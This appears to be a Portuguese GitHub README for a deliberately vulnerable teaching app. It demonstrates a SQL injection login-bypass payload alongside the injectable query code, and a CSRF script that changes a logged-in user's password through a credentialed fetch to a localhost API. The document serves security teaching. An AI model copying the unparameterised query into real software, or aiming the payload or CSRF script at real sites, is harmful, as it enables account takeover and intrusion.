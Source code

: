 # COMO RODAR AS VULNERABILIDADES

## SQL Injection 

1 - Quando digitamos `" OR "1"="1` no campo de e-mail  conseguimos fazer login mesmo sem credenciais corretas

https://github.com/user-attachments/assets/67b0d9d1-da18-4db9-ab24-6decab26bb59


2 - Essa falha acontece quando os dados fornecidos pelo usuário são inseridos diretamente dentro de um comando SQL, sem qualquer tipo de proteção ou tratamento. Nesse caso, o conteúdo malicioso enviado é interpretado como parte da lógica do banco de dados.

Exemplo de vulnerabilidade no código  👇 

```js
  const query = await pool.query(
    `
    SELECT
      id,
      nome,
      email
    from usuario
    where 1 = 1
    and email = "${email}" // obs: O campo email está vulnerável para SQL Injections:
    and senha = "${senha}"
    `
  );
```

## Cross-Site Request Forgery (CSRF)

1 - Necessário fazer login da pagina original

https://github.com/user-attachments/assets/c6f8c93f-76e1-4d5b-81af-a89eb2277225

2 - Após o usuário realizar o login no site oficial, os cookies de autenticação são armazenados no navegador. Esses cookies podem ser aproveitados por outra página web para enviar uma solicitação maliciosa, como, por exemplo, para a rota localhost:5000/api/updateSenha.


https://github.com/user-attachments/assets/af4c2424-6f6b-4a90-bf39-9a448ca09916

3 - Dessa forma, o cookie do usuário autenticado é enviado ao servidor na solicitação, permitindo que um atacante altere a senha do usuário de maneira maliciosa, explorando a ausência de proteções adequadas, como validação de tokens CSRF.

Exemplo do script do atacante:
```js
      const hackerAlteraSenha = async () => {
        fetch("http://localhost:5000/api/userPassword", {
          method: "PUT",
          credentials: "include",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify({
            novaSenha: "senhahackeada",
          }),
        })
          .then((res) => {
            if (!res.ok) {
              return res.json().then((data) => {
                throw new Error(data.message || "Erro desconhecido");
              });
            }
            return res.json();
          })
          .then((data) => {
            if (data.success) {
              console.log({ data });

              alert("Senha alterada!");
            }
          })
          .catch((error) => {
            console.error("Erro:", error.message);
          });
      };
```
4 - Conclusão, no banco de dados a senha do usuário foi alterada.

![image](https://github.com/user-attachments/assets/5cb42999-9207-4030-8a84-5be76804a93d)

